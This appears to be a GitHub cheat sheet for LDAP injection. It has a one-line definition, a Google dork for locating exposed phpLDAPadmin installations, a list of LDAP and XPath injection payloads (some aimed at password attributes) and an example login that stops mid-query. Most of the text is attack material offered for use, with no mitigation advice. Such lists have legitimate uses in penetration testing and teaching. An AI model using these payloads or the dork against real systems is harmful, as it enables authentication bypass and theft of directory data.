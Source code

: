 # LDAP_Injection

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

Google dork for  **LDAP Injection** ```intitle:"phpLDAPadmin" inurl:cmd.php```

**Payloads :**
*)(&  
*))%00  
)(cn=))\x00  
*()|%26'  
*()|&'  
*(|(mail=*))  
*(|(objectclass=*))  
*)(uid=*))(|(uid=*  
*/*  
*|  
/  
//  
//*  
@*  
|  
admin*  
admin*)((|userpassword=*)  
admin*)((|userPassword=*)  
x' or name()='username' or 'x'='y  
  
**Example:**
user = *)(uid=*))(|(uid=*  
pass = password  
query = "(&(uid=*)(uid=*)) (|(uid=*)(
